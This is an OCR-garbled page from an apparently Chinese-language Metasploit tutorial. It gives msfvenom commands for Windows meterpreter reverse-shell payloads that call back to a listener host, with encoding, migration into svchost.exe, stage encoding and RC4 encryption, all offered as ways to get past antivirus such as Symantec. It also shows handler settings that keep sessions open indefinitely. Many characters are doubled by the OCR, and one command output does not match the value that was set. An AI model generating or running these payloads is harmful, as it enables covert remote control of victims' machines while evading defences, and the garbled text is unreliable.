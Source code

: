 防⽌止session意外退出

```
msf5 exploit(multi/handler) > set SessionCommunicationTimeout 0
//默认情况下，如果一个会话将在5分钟（300秒）没有任何活动，那么它会被杀死,为防止此情况可将此项修改为0

msf5 exploit(multi/handler) > set SessionExpirationTimeout 0
//默认情况下，一个星期（604800秒）后，会话将被强制关闭,修改为0可永久不会被关闭

```

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -e x86/shikata_ga_nai -b "\\x00" -i 5 -a x86 --
platform win PrependMigrate=true PrependMigrateProc=svchost.exe -f exe -o shell.exe

```

# stage进⾏行行编码

什么是stage?

这是 green-m ⼤大佬提到的⼀一种⽅方式，使⽤用reverse_https等payload时可以使⽤用下列列⽅方法bypass部分杀软。

⽣生成`payload: msfvenom -p windows/meterpreter/reverse_https lhost=10.211.55.2 lport=3333 -f c`

在msf中进⾏行行如下设置，将控制端向被控制端发送的stage进⾏行行编码

```
msf exploit(multi/handler) > set EnableStageEncoding true //尝试使用不同的编码器对stage进行编码，可能绕过部分杀软的查杀
EnableStageEncoding => true
msf exploit(multi/handler) > set stageencoder x86/fnstenv_mov
Stageencoder => x64/xor
msf exploit(multi/handler) > set stageencodingfallback false
stageencodingfallback => false

```

同样，使⽤用reverse_tcp_rc4也有同样的效果，⽽而且不不能设置stageencoder选项，更更稳定更更⽅方便便

```
msfvenom -p windows/meterpreter/reverse_tcp_rc4 lhost=10.211.55.2 lport=3333 RC4PASSWORD=tidesec -f c

```

利利⽤用rc4对传输的数据进⾏行行加密，密钥在⽣生成时指定，在监听的服务端设置相同的密钥。

就可以在symantec眼⽪皮地下执⾏行行meterpreter。
